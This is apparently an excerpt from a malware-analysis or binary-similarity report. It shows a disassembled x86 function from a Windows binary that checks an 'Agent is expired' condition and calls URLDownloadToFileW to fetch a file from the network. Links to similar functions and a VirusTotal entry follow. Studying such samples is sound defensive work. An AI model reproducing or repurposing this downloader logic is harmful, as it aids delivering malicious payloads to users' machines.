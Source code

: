 jb 0x40baaa
mov ecx,dword[ebp-0x268]
inc edx
mov eax,ecx
cmp edx,0x1000
jb 0x40baa0
mov ecx,dword[ecx-4]
add edx,0x23
sub eax,ecx
add eax,0xfffffffc
cmp eax,0x1f
ja 0x40bec4
push edx
push ecx
call fcn.004825cf
add esp,8
mov eax,dword[ebp-0x23c]
lea edi,[ebp-0x250]
mov ecx,dword[ebp-0x250]
cmp eax,8
mov edx,dword[ebp-0x240]
cmovae edi,ecx
mov dword[ebp-0x258],0
cmp edx,esi
mov dword[ebp-0x254],0xf
mov esi,dword[sym.imp.KERNEL32.dll_CloseHandle]
mov byte[ebp-0x268],0
jne 0x40bbbb
lea ecx,[ebp-0x220]
test edx,edx
je 0x40bb15
mov eax,ecx
sub edi,eax
nop
mov ax,word[edi+ecx]
cmp ax,word[ecx]
jne 0x40bbaf
add ecx,2
sub edx,1
jne 0x40bb00
mov edi,dword[sym.imp.KERNEL32.dll_GetCurrentProcessId]
sub esp,0x18
xor eax,eax
mov ecx,esp
push 0x11
mov dword[ecx+0x10],0
mov dword[ecx+0x14],7
push str.Agent_is_expired_
mov word[ecx],ax
call fcn.004113d0
call fcn.004076a0
add esp,0x18
lea ecx,[ebp-0x280]
cmp dword[ebp-0x26c],8
lea eax,[ebp-0x298]
cmovae ecx,dword[ebp-0x280]
cmp dword[ebp-0x284],8
push 0
cmovae eax,dword[ebp-0x298]
push 0
push ecx
push eax
push 0
call dword[sym.imp.urlmon.dll_URLDownloadToFileW]

[similar_1_ref]: /report/fcn.0040ab30@27ac6b5c7fa1ad11790cdc733c25a701
[similar_2_ref]: /report/fcn.00497a40@7453c96a6fbd42ec690b8deb53eafcba
[similar_3_ref]: /report/fcn.10144da0@2585b133c2e70968905cce13b1fc2654
[similar_4_ref]: /report/fcn.10bd17cf@89dc67d2f980e8488f97b1bf8cb24258
[similar_5_ref]: /report/fcn.0041b660@3e981d1767f44f5fe2446a49ffe52f4e
[virustotal_ref]: https://www.virustotal.com/gui/file/27ac6b5c7fa1ad11790cdc733c25a701